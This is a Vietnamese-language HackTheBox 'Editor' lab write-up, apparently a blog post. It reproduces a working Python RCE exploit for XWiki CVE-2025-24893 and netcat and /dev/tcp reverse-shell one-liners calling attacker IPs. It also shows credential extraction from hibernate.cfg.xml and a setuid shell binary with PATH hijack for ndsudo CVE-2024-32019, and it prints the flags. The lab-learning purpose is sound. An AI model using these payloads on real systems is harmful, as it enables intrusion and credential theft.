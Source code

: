 ```yaml
---
title: HTB Editor
published: 2025-08-20
tags: [Blogging, Linux]
category: Writeups
author: Trohan0x00
draft: true
image: "/src/content/posts/assets/editor.png"
---
```

# HTB Labs: Editor 
## I. User flag
Đến với lab việc đầu tiên ta sẽ recon trước bằng nmap 
![image](https://hackmd.io/_uploads/SyS02j8Kge.png)
Ta thấy có 2 service web ở port `80` và `8080` và 1 `ssh`. Giờ mình sẽ kiểm trả ở port `80` trước. Trước đó thì ta cần update tên miền vào file `/etc/hosts` trước
![image](https://hackmd.io/_uploads/rJC21h8Kgg.png)
Nhìn chung đây là một trang sản phẩm cho người dùng có thể tải `Code Editor` về máy và tìm kiếm thì mình không thấy điểm nào để có thể inject input vào nên tạm thời sẽ đi đến với port `8080`
![image](https://hackmd.io/_uploads/S1v74HDYgg.png)
Ta thấy đây là một trang dùng `xwiki` để giới thiệu về tool `Simplist code` ở phía trang port `80`. Có một vài trường và path đáng để xem xét. Ở bên dưới ta thấy rằng phiên bản `xwiki` là `XWiki Debian 15.10.8`
![image](https://hackmd.io/_uploads/SJh04Bvtle.png)
Mình sẽ check sploit bằng [exploit-db](https://www.exploit-db.com/) để xem có bản khai thác hay `POC` nào được public không. Ta thấy được có bản `CVE` đã công bố 2025 về lỗ hỏng của version này
![image](https://hackmd.io/_uploads/S1l8LSwtxl.png)

```python 

# Exploit Title: XWiki Platform - Remote Code Execution
# Exploit Author: Al Baradi Joy
# Exploit Date: April 6, 2025
# CVE ID: CVE-2025-24893
# Vendor Homepage: https://www.xwiki.org/
# Software Link: https://github.com/xwiki/xwiki-platform
# Version: Affected versions up to and including XWiki 15.10.10
# Tested Versions: XWiki 15.10.10
# Vulnerability Type: Remote Code Execution (RCE)
# CVSS Score: 9.8 (Critical)
# CVSS Vector: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
# Description:
# XWiki Platform suffers from a critical vulnerability where any guest user
can
# execute arbitrary code remotely through the SolrSearch endpoint. This can
lead
# to a full server compromise, including the ability to execute commands on
the
# underlying system. The vulnerability impacts the confidentiality,
integrity,
# and availability of the XWiki installation. The issue has been patched in
XWiki
# versions 15.10.11, 16.4.1, and 16.5.0RC1.
# Proof of Concept: Yes
# Categories: XWiki, Remote Code Execution, CVE-2025, RCE
# References:
# - GHSA Advisory: https://github.com/advisories/GHSA-rr6p-3pfg-562j
# - NVD CVE Details: https://nvd.nist.gov/vuln/detail/CVE-2025-24893
# - GitHub Exploit Link:
https://github.com/a1baradi/Exploit/blob/main/CVE-2025-24893.py

import requests

# Banner
def display_banner():
print("="*80)
print("Exploit Title: CVE-2025-24893 - XWiki Platform Remote Code
Execution")
print("Exploit Author: Al Baradi Joy")
print("GitHub Exploit:
https://github.com/a1baradi/Exploit/blob/main/CVE-2025-24893.py")
print("="*80)

# Function to detect the target protocol (HTTP or HTTPS)
def detect_protocol(domain):
https_url = f"https://{domain}"
http_url = f"http://{domain}"

try:
response = requests.get(https_url, timeout=5, allow_redirects=True)
if response.status_code < 400:
print(f"[✔] Target supports HTTPS: {https_url}")
return https_url
except requests.exceptions.RequestException:
print("[!] HTTPS not available, falling back to HTTP.")

try:
response = requests.get(http_url, timeout=5, allow_redirects=True)
if response.status_code < 400:
print(f"[✔] Target supports HTTP: {http_url}")
return http_url
except requests.exceptions.RequestException:
print("[✖] Target is unreachable on both HTTP and HTTPS.")
exit(1)

# Exploit function
def exploit(target_url):
target_url = detect_protocol(target_url.replace("http://",
"").replace("https://", "").strip())
exploit_url =
f"{target_url}/bin/get/Main/SolrSearch?media=rss&text=%7d%7d%7d%7b%7basync%20async%3dfalse%7d%7d%7b%7bgroovy%7d%7dprintln(%22cat%20/etc/passwd%22.execute().text)%7b%7b%2fgroovy%7d%7d%7b%7b%2fasync%7d%7d"

try:
print(f"[+] Sending request to: {exploit_url}")
response = requests.get(exploit_url, timeout=10)

# Check if the exploit was successful
if response.status_code == 200 and "root:" in response.text:
print("[✔] Exploit successful! Output received:")
print(response.text)
else:
print(f"[✖] Exploit failed. Status code:
{response.status_code}")

except requests.exceptions.ConnectionError:
print("[✖] Connection failed. Target may be down.")
except requests.exceptions.Timeout:
print("[✖] Request timed out. Target is slow or unresponsive.")
except requests.exceptions.RequestException as e:
print(f"[✖] Unexpected error: {e}")

# Main execution
if __name__ == "__main__":
display_banner()
target = input("[?] Enter the target URL (without http/https):
").strip()
exploit(target)
            
```
Lỗi nằm trong macro SolrSearch của XWiki. Khi người dùng gửi truy vấn tìm kiếm với `media=rss`, dữ liệu này được chèn trực tiếp vào `template`. `Template` này cho phép chèn và thực thi mã `Groovy`, nhưng không có cơ chế lọc/chặn thích hợp.
Kết quả: kẻ tấn công có thể inject Groovy script → được thực thi trực tiếp trên server.

Ta thấy được đoạn payload rce là `}}}{{async async=false}}{{groovy}}println("cat /etc/passwd".execute().text){{/groovy}}{{/async}}`. Ở đây sẽ dùng `}}}` để out khỏi context ban đầu sau đó dùng macro `async` để đồng bộ hóa và chèn thêm macro `groovy` vào thực hiện `RCE` để đọc file `/etc/passwd`. Giờ ta sẽ tiến hành inject thử với lệnh
Mình sẽ test thử với lệnh `id` về cơ bản để check xem quyền của ta như thế nào, có thể là root hay không. Như ta thấy thì kết quả trả về khá nhiều data nhưng ta chỉ cần vô theo các dòng có `rss`
![image](https://hackmd.io/_uploads/SJLj0HDYxe.png)
Ta có thể thấy được kết quả đã thành công có thể thực hiện được `RCE`. Giờ mình sẽ check thử xem có thể đưa `rev shell` vào không để thuận tiện dùng lệnh
Ta có thể dùng `'busybox nc 10.10.10.10 9001 -e /bin/bash'` để rev shell. Ta nên thêm busybox để có thể chạy `nc -e` thay vì chạy lệnh `bash -c 'exec bash -i >& /dev/tcp/10.10.14.24/4444 0>&1'` vì sẽ có nhiều target không có bash đầy đủ và cũng không hỗ trợ `/dev/tcp`
![image](https://hackmd.io/_uploads/HyXkMuPtgg.png)
Ta đã thành công thực hiện `rev shell`, giờ là đến việc tìm `user flag` . Sau một lúc tìm hiểu về `XWiki` ta thấy được có một file đặc biệt `/usr/local/xwiki/webapps/xwiki/WEB-INF/hibernate.cfg.xml`. File này là nơi `XWiki` dùng để kết nối với database của server để thực hiện xử lý các dữ liệu liên quan đến `login, logout, reg,...` 
Do `dir` không giống nhau nên mình check thử thì thấy được file nằm ở `/usr/lib/xwiki/WEB-INF/hibernate.cfg.xml`
![image](https://hackmd.io/_uploads/HJIFBdwKxl.png)
Ta có thể thấy được thông tin `password` bằng lệnh `cat /usr/lib/xwiki/WEB-INF/hibernate.cfg.xml | grep "password"` 
![image](https://hackmd.io/_uploads/Bkh9D_wFll.png)
Cộng thêm với username là `oliver` ta có thể login vào `ssh server` để lấy shell
![image](https://hackmd.io/_uploads/SkA6vuDFlx.png)
> 3fd90dfed2869746543d3f036734541d

## II. Root flag
Đến với phần lấy `root flag`, thì việc cần làm là check trước các bước đầu tiên là `enum SUID` với `find / -perm -4000 2>/dev/null`
![image](https://hackmd.io/_uploads/ry-29OvYlg.png)
Ta thấy được đáng chú ý nhất là `ndsudo` từng dính `CVE-2024-32019 (Untrusted Search Path)`. Lỗ hổng phát sinh khi `ndsudo` được đóng gói dưới dạng `SUID root` (root-owned và có bit SUID), nhưng lại tìm các lệnh thông qua biến môi trường `PATH`, điều này dẫn đến tình huống `Untrusted Search Path`.
Mình tìm được `POC` cụ thể [ở đây](https://github.com/AzureADTrent/CVE-2024-32019-POC)
ta sẽ dùng file c 
```c 
#include <unistd.h>

int main() {
    setuid(0); setgid(0);
    execl("/bin/bash", "bash", NULL);
    return 0;
}
```
Và sau đó dùng gcc compile thành binary do ở phía `ssh server` không có `gcc` nên ta sẽ dùng ở local. Tiếp đến để truyền nhanh lên `ssh server` mà không cần mở server ở local ta có thể dùng `scp`
![image](https://hackmd.io/_uploads/HJnW2uvKxg.png)
Giờ ta sẽ set `PATH` biến mội trường cho nó và cấp quyền thực thi
![image](https://hackmd.io/_uploads/S1X8huPFel.png)
Sau cùng là sẽ gọi lệnh `./ndsudo nvme-list`
![image](https://hackmd.io/_uploads/H1qXT_vKge.png)
Giờ ta đã có quyền root giờ chỉ cần đến root và lấy flag
![image](https://hackmd.io/_uploads/B1aHTOvKeg.png)

> 396ef747a71039bd66d36d2d75c4966f

